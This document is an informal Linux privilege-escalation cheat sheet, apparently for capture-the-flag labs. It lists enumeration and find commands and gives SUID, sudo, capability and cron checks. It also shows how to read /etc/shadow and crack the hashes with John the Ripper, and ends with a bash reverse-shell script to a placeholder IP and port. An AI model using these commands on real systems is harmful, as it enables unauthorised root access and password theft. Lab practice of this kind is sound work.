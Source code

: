 ## Enumeration

**`hostname`** - name of the device, can be usefull <br>
**`uname -a`** - information about kernel system, search in exploit DB <br>
**`cat /proc/version`** - information about compilers (c++), kernel version <br>
**`ps`** - idk <br>
**`id`** - users privilege level<br>
**`sudo -l`** - what commands can user run with root privileges <br>
**`env`** - enviromental variables<br>
**`cat /etc/passwd`** - discoved users on the system <br>
**`cat /etc/shadow`** - hashes of passwords <br>
**`cat /etc/issue`** - what linux is running <br>
**`history`** - can show passwords and usernames or any info <br> <br>

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory <br>
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory <br>
`find / -type d -name config` find the directory named config under “/” <br>
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users) <br>
`find / -perm a=x` find executable files <br>
`find /home -user frank` find all files for user “frank” under “/home” <br>
`find / -mtime 10` find files that were modified in the last 10 days <br>
`find / -atime 10` find files that were accessed in the last 10 day <br>
`find / -cmin -60` find files changed within the last hour (60 minutes) <br>
`find / -amin -60` find files accesses within the last hour (60 minutes) <br>
`find / -size 50M` find files with a 50 MB size <br>

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner <br>

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. <br>
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files `unshadow passwd.txt shadow.txt > passwords.txt` and then johnTheRipper `john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt` <br>

## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities. <br>
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities) <br>

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. <br>

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell<br>
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

